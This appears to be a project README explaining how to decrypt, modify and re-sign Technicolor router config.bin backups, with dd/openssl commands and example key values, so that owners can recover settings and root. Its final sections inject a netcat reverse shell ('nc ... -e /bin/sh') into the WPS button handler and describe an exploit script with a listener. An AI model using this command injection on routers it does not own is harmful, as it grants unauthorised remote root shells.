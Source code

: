 # Technicolor config decrypt

This repo contains info how to decrypt `config.bin`, edit and encrypt back

**YOU MUST HAVE HAD ROOT AT LEAST ONCE BEFORE YOU CAN DECRYPT**

This method is useful if you need:

1. See your saved settings
2. Recover VoIP password to use with different device
3. Recover root access after ISP pushed an update and kicked you out

## File format

HEADER + IV + DATA + SIGNATURE

## Method

* HEADER: ascii '\n' separated, '\n\n' at the end
* IV: 16 random bytes, generated for each export
* DATA: AES 128 CBC encrypted using hardware key
* SIGNATURE: 20 bytes, HMAC-SHA1 of `HEADER + IV + DATA`

## Key

The key is located in `/proc/rip/0108`. First 32 bytes used for AES encryption, entire 64 bytes are used for HMAC.
Also, the key may be exctracted from `mtd5` using this method: [https://github.com/pedro-n-rocha/secr](https://github.com/pedro-n-rocha/secr)

## Decryption

Decryption using command line: extract aes data and decrypt using hex values

```
dd if=config.bin bs=1 count=246 > header.txt
dd if=config.bin bs=1 skip=246 count=16 > iv.bin
dd if=config.bin bs=1 skip=262 count=FILE-SIZE-MINUS-20-MINUS-262 > config.aes
openssl enc -aes-256-cbc -nosalt -d -in config.aes \
-K '72ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b6876783' -iv 'c6b1c0aac15c13e5ab18a8aabafc14e0'
```
In this example the header size was 246. Take the file size, substract 246+16+20

The hex value of `-K` comes from your router, `-iv` comes from config.bin

## Encryption

Encrypt config.txt:
```
openssl enc -aes-256-cbc -nosalt -in config.txt \
-K '72ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b6876783' -iv 'c6b1c0aac15c13e5ab18a8aabafc14e0' > config2.aes
```
Concatenate HEADER, IV and DATA:
```
cat header.txt iv.bin config2.aes > config2.data
```
Calculate HMAC-SHA1 digest:
```
dgst -sha1 -mac hmac -macopt hexkey:72ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b687678372ab46c7e90c66feb4af261437bd738204c640dc7f0b9959ea18d582b6876783 -binary < config2.data > signature.bin
```
Assemble config file:
```
cat config2.data signature.bin > config2.bin
```
Note, that for aes encryption you should use the first 32 bytes of the key, but for signature - all the 64.

## Header example
```
PREAMBLE=THENC
BACKUPVERSION=1.00
BOARDMNEMONIC=GANT-1
PRODUCTNAME=MediaAccess TG
SERIALNUMBER=CPxxxxxx
MAC=xx:xx:xx:xx:xx:xx
BUILDVERSION=17.1.7992-0001012-20180515151413-4f071fd23e90c774b6827546188a38d6c91cff38
CIPHERKEY=GW
SIGNATUREKEY=GW

```

## Export example
```
00000000: 5052 4541 4d42 4c45 3d54 4845 4e43 0a42  PREAMBLE=THENC.B
00000010: 4143 4b55 5056 4552 5349 4f4e 3d31 2e30  ACKUPVERSION=1.0
00000020: 300a 424f 4152 444d 4e45 4d4f 4e49 433d  0.BOARDMNEMONIC=
00000030: 4741 4e54 2d31 0a50 524f 4455 4354 4e41  GANT-1.PRODUCTNA
00000040: 4d45 3d4d 6564 6961 4163 6365 7373 2054  ME=MediaAccess T
00000050: 470a 5345 5249 414c 4e55 4d42 4552 3d43  G.SERIALNUMBER=C
00000060: xxxx xxxx xxxx xxxx xxxx 0a4d 4143 3dxx  xxxxxxxxxx.MAC=x
00000070: xxxx xxxx xxxx xxxx xxxx xxxx xxxx xxxx  xxxxxxxxxxxxxxxx
00000080: 0a42 5549 4c44 5645 5253 494f 4e3d 3137  .BUILDVERSION=17
00000090: 2e31 2e37 3939 322d 3030 3031 3031 322d  .1.7992-0001012-
000000a0: 3230 3138 3035 3135 3135 3134 3133 2d34  20180515151413-4
000000b0: 6630 3731 6664 3233 6539 3063 3737 3462  f071fd23e90c774b
000000c0: 3638 3237 3534 3631 3838 6133 3864 3663  6827546188a38d6c
000000d0: 3931 6366 6633 380a 4349 5048 4552 4b45  91cff38.CIPHERKE
000000e0: 593d 4757 0a53 4947 4e41 5455 5245 4b45  Y=GW.SIGNATUREKE
000000f0: 593d 4757 0a0a c6b1 c0aa c15c 13e5 ab18  Y=GW.......\....
00000100: a8aa bafc 14e0 b694 f4bf ff6c 5f3a 1db5  ...........l_:..
00000110: 3d35 9222 3433 01c0 f6a6 e90e 6599 e52e  =5."43......e...
00000120: 79fe 23f8 da03 aaad cbeb c7ac ba07 5505  y.#...........U.
00000130: 7702 12c3 5b7c 66ec 7c8f 1e30 1250 9d1d  w...[|f.|..0.P..
..
..
```
Here, IV is `c6b1c0aac15c13e5ab18a8aabafc14e0`, next goes encrypted data, 20 bytes at the end will be the signature

## Getting back root access

If your ISP updated the firmware and you are no longer able to exploit any public vulnerability to get root back, try to change the wps button handler, like:
```
button.wps.handler='nc 192.168.1.2 1337 -e /bin/sh || true'
```
Upload the config and press the WPS button - you should receive a remote shell with root access

## Python PoC

Assuming you have root shell access.

1. Save the encryption file: `dd if=/proc/rip/0108 of=proc_rip_0108`. Copy that file off the router.
2. Download your config file through the WEB UI. It is going to be a binary file `config.bin`.
3. Suddenly, your ISP pushes an update and kicks you out.
4. Run the exploit: `./exploit_config.py`
5. Import the `config_patched.bin`
6. Start a reverse shell listener on 192.168.1.69: `nc -lnvp 1337`
7. After the rooter reboots press the WPS button
8. You should receive a reverse shell

